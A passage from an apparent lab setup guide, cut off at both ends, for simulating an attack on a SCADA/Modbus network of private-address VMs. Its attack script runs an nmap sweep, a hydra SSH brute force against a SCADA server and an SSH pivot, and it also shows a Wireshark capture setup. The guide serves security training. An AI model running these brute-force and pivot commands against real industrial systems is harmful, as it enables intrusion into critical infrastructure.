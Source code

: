      # Install Python libraries
     pip3 install scapy pandas
     ```

2. **Prepare Attack Scripts**:
   - Save the following script as `simulate_attack.sh`:
     ```bash
     #!/bin/bash

     # Scan the network
     nmap -sP 192.168.1.0/24

     # Brute-force SSH on SCADA Server
     hydra -l admin -P passwords.txt ssh://192.168.1.10

     # Connect to SCADA Server and pivot to Engineering Workstation
     ssh admin@192.168.1.10
     nc -zv 192.168.1.30 502  # Test Modbus connectivity
     ```

---

### **Step 6: Set Up the Wireshark Monitor**
1. **Install Wireshark**:
   - Run the following Bash script on the Wireshark Monitor VM (`wireshark_setup.sh`):
     ```bash
     #!/bin/bash

     # Install Wireshark and Python
     sudo apt update && sudo apt upgrade -y
     sudo apt install -y wireshark python3

     # Configure Wireshark
     sudo usermod -aG wireshark $USER
     sudo reboot
     ```

2. **Start Wireshark**:
   - After reboot, start Wireshark:
     ```bash
     sudo wireshark
     ```
   - Set the filter to `tcp.port == 502` to capture Modbus traffic.

---